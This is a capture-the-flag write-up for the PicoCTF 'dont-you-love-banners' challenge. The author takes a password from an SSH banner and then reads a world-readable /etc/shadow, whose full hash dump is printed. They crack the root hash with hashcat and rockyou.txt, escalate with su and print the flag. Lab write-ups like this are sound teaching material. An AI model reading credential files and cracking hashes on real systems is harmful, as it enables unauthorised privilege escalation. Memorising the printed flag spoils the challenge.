 ```yaml
---
title: "dont-you-love-banners"
description: "Can you abuse the banner? ...  From the above information abuse the machine and find the flag in the /root directory."
pubDate: 2024-03-27
category: "general skills"
author: "sealldev"
section: "PicoCTF"
tags: ["medium"]
---
```


We are given two instance servers, Server 1 apparently has some 'crucial information' while we need to use the Server 2 to find the flag.

Connecting to Server 1 we are given this SSH banner: `SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234`.

Let's connect to Server 2 and see whats there.
```
*************************************
**************WELCOME****************
*************************************

what is the password?
```

Well, we can see its in the banner: `My_Passw@rd_@1234`.

```
What is the top cyber security conference in the world?
```

This ones easy, DEFCON!

```
the first hacker ever was known for phreaking(making free phone calls), who was it?
```

A quick Google says John Draper.

```
player@challenge:~$
```

Now we have access to a shell!

I change to the `/root` directory like it suggests in the description but we cannot read `flag.txt` as its a protected file.

I looked for any SUID binaries and the basics and end up trying to read `/etc/shadow` and find it's readable!
```
$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
daemon:*:19507:0:99999:7:::
bin:*:19507:0:99999:7:::
sys:*:19507:0:99999:7:::
sync:*:19507:0:99999:7:::
games:*:19507:0:99999:7:::
man:*:19507:0:99999:7:::
lp:*:19507:0:99999:7:::
mail:*:19507:0:99999:7:::
news:*:19507:0:99999:7:::
uucp:*:19507:0:99999:7:::
proxy:*:19507:0:99999:7:::
www-data:*:19507:0:99999:7:::
backup:*:19507:0:99999:7:::
list:*:19507:0:99999:7:::
irc:*:19507:0:99999:7:::
gnats:*:19507:0:99999:7:::
nobody:*:19507:0:99999:7:::
_apt:*:19507:0:99999:7:::
systemd-network:*:19791:0:99999:7:::
systemd-resolve:*:19791:0:99999:7:::
messagebus:*:19791:0:99999:7:::
sshd:*:19791:0:99999:7:::
player:$6$BCCW51fi$UI/5W01uG2.6EmxktMtZXbJQwrgDlv213cLwu7RxaIQHnRZXwKZ3yjuyNKf86KlSwbvAOp3YozpNVrBeKW9Ls0:19791:0:99999:7:::
```

Let's crack the root password hash!

I use `hashcat` with the famous `rockyou.txt` wordlist:
```
$ hashcat hash ~/.../SecLists/Password/Leaked-Databases/rockyou.txt
...
$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:iloveyou
...
```

There's the password! `iloveyou`.

```
player@challenge:/root$ su root
su root
Password: iloveyou

root@challenge:~# cat flag.txt
cat flag.txt
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```

Flag: `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}`